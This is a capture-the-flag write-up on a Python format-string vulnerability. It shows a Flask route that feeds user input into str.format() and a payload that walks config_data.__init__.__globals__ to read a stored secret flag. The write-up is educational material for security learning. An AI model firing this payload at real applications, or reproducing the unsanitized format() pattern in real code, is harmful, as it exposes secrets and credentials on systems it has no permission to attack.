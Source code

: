 # solution

This challenge is the vuln when the dev dont sanitize the input from users and we can take advanced of that to get the flag through .format() function in python. I find this site that give you information about this challenge. https://podalirius.net/en/articles/python-format-string-vulnerabilities/

Take a look at source code:

```
CONFIG = {
 "SECRET": "DH{fake-fake-fake}"
}

class DataConfig(object):
    def __init__(self, name):
        self.name = name

def print_data(format_string, config_data):
    return format_string.format(config_data=config_data)

config_data = DataConfig("How can I get the flag?")

@app.route('/',methods=['GET'])
def page1():
    payload = request.args.get('body')
    sys.stdin = io.StringIO(payload)
    result = print_data(sys.stdin.readline(), config_data)
    return render_template('index.html', value=result)
```

I can give you an example about the format() function

```
format_string = "The data is: {config_data.name}"
config_data = DataConfig("How can I get the flag?")
result = print_data(format_string, config_data)

-> result: The data is: How can I get the flag?
```

Aright, so can we access globals by config_data objects like some SSTI payloads. So i create this payloads.

```
/?body={config_data.__init__.__globals__[CONFIG][SECRET]}
```

Exploiting config_data.**init**.**globals** gives you access to global variables like CONFIG, which can be used to get sensitive information in case of improper control.
![alt text](image.png)<br>
